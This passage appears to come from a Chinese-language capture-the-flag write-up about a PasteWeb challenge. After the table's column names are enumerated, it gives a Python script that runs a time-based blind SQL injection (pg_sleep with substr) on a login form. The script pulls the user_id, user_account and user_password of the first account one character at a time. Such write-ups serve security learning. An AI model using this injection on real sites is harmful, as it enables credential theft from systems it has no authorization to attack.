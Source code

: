 ![](assets/6-1.png)
成功爆破出 pasteweb_accounts 的 column 有 user_id、user_account、user_password\
接下來要看看存在 pasteweb_accounts 裡面的 data 會是什麼樣子\
撰寫腳本爆破出 pasteweb_accounts 的第 1 筆資料
```python
# PasteWeb1/pasteweb_accounts.py
import requests
from time import time, sleep

printable_char = ''
for i in range(32, 127):
    printable_char += chr(i)

cnt = 0
row = ''
while True:
    cnt += 1
    stop = True
    for c in printable_char:
        sleep(0.1)
        username = "' or 1=(select 1 from pg_sleep(2) where substr((select \
        concat(user_id,' ',user_account,' ',user_password) from \
        pasteweb_accounts limit 1 offset 0),1," \
        + str(cnt) + ")='" + row + c + "') --"
        current_time = str(int(time()))
        url = 'https://pasteweb.ctf.zoolab.org/'
        data = {
            'username': username,
            'password': '',
            'current_time': current_time
        }
        start_time = time()
        requests.post(url, data=data)
        end_time = time()
        if end_time - start_time > 2:
            row += c
            stop = False
```
